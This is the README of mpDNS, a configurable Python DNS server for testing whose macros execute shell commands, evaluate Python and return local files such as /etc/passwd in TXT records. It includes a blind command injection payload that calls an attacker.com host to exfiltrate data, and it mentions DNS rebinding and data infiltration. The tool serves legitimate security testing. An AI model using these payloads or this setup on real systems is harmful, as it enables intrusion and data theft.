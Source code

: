 mpDNS aka multi-purpose DNS Server
--------------------
Simple, configurable DNS Server with multiple useful features
- Python 3
- names.db -> holds all custom records (see examples)
- Simple wildcards like *.example.com
- Catch unicode dns requests
- Custom actions aka macro:
  - `{{shellexec::dig google.com +short}}` _-> Execute shell command and respond with result_
  - `{{eval::res = '1.1.1.%d' % random.randint(0,256)}}` _-> Evaluate your python code_
  - `{{file::/etc/passwd}}` _-> Respond with localfile contents_
  - `{{filelist::/somefile.list}}` _-> Respond with multiple results line by line_
  - `{{resolve}}` _-> Forward DNS request to local system DNS_
  - `{{resolve::example.com}}` _-> Resolve example.com instead of original record_
  - `{{echo}}` _-> Response back with peer address_
  - `{{shellexec::echo %PEER% %QUERY% %QUERYTYPE%}}` _-> Use of variables_
- See names.db.example for more

Heavily based on <https://github.com/circuits/circuits/blob/master/examples/dnsserver.py>

Quick Start
-----------
```
git clone https://github.com/nopernik/mpDNS
cd ./mpDNS
pip install -r requirements.txt
touch names.db
```
Now you're ready to fill your DNS records in **names.db** based on **names.db.example**

Usage: `./mpdns.py`
 - Create **names.db**. See names.db.example
 - Edit DNS records in **names.db** with `./mpdns.py -e` no restart required

Offensive and Defensive purposes:
-----------
1. You need a light-weight simple dns-server solution for testing purposes (NOT PRODUCTION!)
2. Test for various blind injection vulnerabilities in web applications _(ex. `/ping.php?ip=$(dig $(whoami).attacker.com)`)_
3. Easily infiltrate 65K of data in one `TXT` query
4. DNS Rebinding
5. Execute custom macro action on specific query (useful in malware-analysis lab environments)
6. And lots more. It is highly customizable.

Limitations
------------------
1. Due to UDP Datagram limit of 65535 bytes, DNS response is limited to approx ~65200 bytes\
this limitation applies to `TXT` records which are splitted into chunks of 256 bytes until response reaches maximum allowed 65200b\
therefore `TXT` record with macro `{{file:localfile.txt}}` is limited to 65200 bytes.
2. No support for nested wildcards **`test.*.example.com`**
3. No support for custom DNS server resolver in `{{resolve::example.com}}` macro
4. `TTL` always set to **0**

Examples
-----------
**names.db example:**
```
# Empty configuration will result in empty but valid responses
#
# Unicode domain names are not supported but still can be catched by the server.
# for example мама-сервер-unicode.google.com will be catched but with SERVFAIL response

passwd.example.com	TXT     {{file::/etc/passwd}}  #comments are ignored
shellexec			TXT     {{shellexec::whoami}}
eval				TXT     {{eval::import random; res = random.randint(1,500)}}
resolve1			A       {{resolve}}
resolve2			A       {{resolve::self}}      #same as previous
resolve3			A       {{resolve::example.com}}
blabla.com			A       5.5.5.5

*					A       127.0.0.1
*.example.com		A		7.7.7.7
c1.example.com		CNAME	c2.example.com
c2.example.com		CNAME	c3.example.com
c3.example.com		CNAME	google.example.com
google.example.com	CNAME	google.com
test.example.com	A		8.8.8.8
google.com			A		{{resolve::self}}
notgoogle.com		A		{{resolve::google.com}}
```

Example output with names.db example:
---------


**Regular resolution from DB**: `dig test.example.com @localhost`
```
;; ANSWER SECTION:
test.example.com.	0	IN	A	8.8.8.8
```
_mpDNS output:_ `- Request from 127.0.0.1:57698      -> test.example.com.	-> 8.8.8.8 (A)`

-----
**Recursive CNAME resolution**: `dig c1.example.com @localhost`

```
;; QUESTION SECTION:
;c1.example.com.			IN	A

;; ANSWER SECTION:
c1.example.com.		0	IN	CNAME	c2.example.com.
c2.example.com.		0	IN	CNAME	c3.example.com.
c3.example.com.		0	IN	CNAME	google.example.com.
google.example.com.	0	IN	CNAME	google.com.
google.com.		0	IN	A	216.58.206.14
```
_mpDNS output:_ 
```
- Request from 127.0.0.1:44120      -> c1.example.com.		-> c2.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c2.example.com		-> c3.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c3.example.com		-> google.example.com (CNAME)
- Request from 127.0.0.1:44120      -> google.example.com	-> google.com (CNAME)
- Request from 127.0.0.1:44120      -> google.com			-> {{resolve::self}} (A)
```

-----

**Wildcard resolution**: `dig not-in-db.com @localhost`

```
;; ANSWER SECTION:
not-in-db.com.		0	IN	A	127.0.0.1
```
_mpDNS output:_ `- Request from 127.0.0.1:38528      -> not-in-db.com.	-> 127.0.0.1 (A)`

-----
**Wildcard subdomain resolution**: `dig wildcard.example.com @localhost`

```
;; ANSWER SECTION:
wildcard.example.com.	0	IN	A	7.7.7.7
```
_mpDNS output:_ `- Request from 127.0.0.1:39691      -> wildcard.example.com.	-> 7.7.7.7 (A)`

-----
**Forward request macro**: `dig google.com @localhost`
```
;; ANSWER SECTION:
google.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:53487      -> google.com.	-> {{resolve::self}} (A)`

-----
**Forward request of custom domain macro**: `dig notgoogle.com @localhost`
```
;; ANSWER SECTION:
notgoogle.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:47797      -> notgoogle.com.	-> {{resolve::google.com}} (A)`

-----
**File contents macro via TXT query**: `dig txt passwd.example.com @localhost`
```
;; ANSWER SECTION:
passwd.example.com.	0	IN	TXT	"root:x:0:0:root:/root:/bin/bash\010daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\010bin:x:2:2:bin:......stripped"
```
_mpDNS output:_ `- Request from 127.0.0.1:38805      -> passwd.example.com.	-> ['root:x:0:0:root...(2808)'] (TXT)`

-----
**Custom python code macro via TXT query**: `dig txt eval @localhost`
```
;; ANSWER SECTION:
eval.			0	IN	TXT	"320"
```
_mpDNS output:_ `- Request from 127.0.0.1:33821      -> eval.	-> ['320'] (TXT)`

-----
**Shell command macro via TXT query**: `dig txt shellexec @localhost`
```
;; ANSWER SECTION:
shellexec.		0	IN	TXT	"root"
```
_mpDNS output:_ `- Request from 127.0.0.1:50262      -> shellexec.	-> ['root'] (TXT)`

-----

Have fun!
